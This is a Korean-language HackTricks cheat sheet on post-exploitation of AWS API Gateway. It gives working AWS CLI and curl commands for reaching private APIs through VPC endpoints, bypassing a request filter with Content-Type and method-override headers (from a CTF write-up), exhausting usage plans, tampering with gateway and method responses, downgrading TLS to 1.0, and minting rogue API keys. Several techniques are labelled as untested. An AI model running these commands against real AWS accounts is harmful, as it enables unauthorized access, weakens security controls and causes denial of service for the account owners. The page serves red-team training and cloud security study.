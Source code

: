 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 노출되지 않은 API 접근

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)에서 서비스 `com.amazonaws.us-east-1.execute-api`로 엔드포인트를 생성하고, 접근할 수 있는 네트워크(잠재적으로 EC2 머신을 통해)에서 엔드포인트를 노출시키고 모든 연결을 허용하는 보안 그룹을 할당합니다.\
그런 다음, EC2 머신에서 엔드포인트에 접근할 수 있으며, 따라서 이전에 노출되지 않았던 게이트웨이 API를 호출할 수 있습니다.

### 요청 본문 패스스루 우회

이 기술은 [**이 CTF 작성글**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)에서 발견되었습니다.

[**AWS 문서**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)의 `PassthroughBehavior` 섹션에 명시된 바와 같이, 기본적으로 **`WHEN_NO_MATCH`** 값은 요청의 **Content-Type** 헤더를 확인할 때 변환 없이 요청을 백엔드로 전달합니다.

따라서 CTF에서 API Gateway는 `Content-Type: application/json`으로 요청이 전송될 때 응답에서 플래그가 **유출되는 것을 방지하는** 통합 템플릿을 가지고 있었습니다:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

그러나 **`Content-type: text/json`**으로 요청을 보내면 해당 필터를 방지할 수 있습니다.

마지막으로, API Gateway가 `Get`과 `Options`만 허용하므로, 본문에 쿼리를 포함한 POST 요청을 보내고 헤더 `X-HTTP-Method-Override: GET`을 사용하여 임의의 dynamoDB 쿼리를 제한 없이 보낼 수 있었습니다:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**열거** 섹션에서 **키의 사용 계획**을 **획득하는 방법**을 볼 수 있습니다. 키가 있고 **월 X 사용으로 제한**되어 있다면, **그냥 사용하여 DoS를 유발할 수 있습니다**.

**API 키**는 **`x-api-key`**라는 **HTTP 헤더**에 **포함**되어야 합니다.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 게이트웨이 응답을 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 사용자 정의 헤더 또는 응답 템플릿을 포함할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: 민감한 정보 유출, 악성 스크립트 실행 또는 API 리소스에 대한 무단 접근.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 단계를 수정하여 트래픽을 다른 단계로 리디렉션하거나 캐싱 설정을 변경하여 캐시된 데이터에 무단으로 접근할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: 캐시된 데이터에 대한 무단 접근, API 트래픽의 중단 또는 가로채기.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway REST API 메서드의 메서드 응답을 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 사용자 정의 헤더 또는 응답 템플릿을 포함할 수 있습니다**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: 민감한 정보 유출, 악성 스크립트 실행 또는 API 리소스에 대한 무단 접근.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **API Gateway REST API 설정을 수정하여 로깅을 비활성화하거나 최소 TLS 버전을 변경하여 API의 보안을 약화시킬 수 있습니다**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: API의 보안을 약화시켜, 무단 접근을 허용하거나 민감한 정보를 노출할 수 있습니다.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, 및 `apigateway:CreateUsagePlanKey` 권한을 가진 공격자는 **새 API 키를 생성하고, 이를 사용 계획에 연결한 다음, 이러한 키를 사용하여 API에 무단 접근할 수 있습니다**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potential Impact**: API 리소스에 대한 무단 접근, 보안 통제를 우회합니다.

{% hint style="info" %}
테스트 필요
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
